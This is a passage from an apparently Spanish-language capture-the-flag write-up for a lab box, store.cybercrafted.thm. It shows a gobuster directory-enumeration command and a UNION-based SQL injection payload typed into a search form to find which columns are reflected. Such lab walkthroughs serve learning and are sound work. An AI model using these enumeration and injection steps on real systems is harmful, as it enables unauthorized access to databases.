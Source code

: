 Viendo el contenido de cada uno de los otros subdominios no se encontró mucho, por lo que pasamos a enumerar los directorios. En el subdominio que si encontramos algo interesante es: `store.cybercrafted.thm ` 

```php
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://store.cybercrafted.thm -t 150 -x txt,html,bd,zip,php

```

![20231121154515.png](20231121154515.png)

## Explotación

### SQL injection

`store.cybercrafted.thm/search.php` Encont!ramos un panel de busqueda de items, que hace una consulta a una base de datos.
[20231121155647.png](20231121155647.png)

Ingreseando `seven' union select 1,2,3,4-- -` podemos ver que el 2,3,4 nos muestra en la fila.

![20231121165929.png](20231121165929.png)
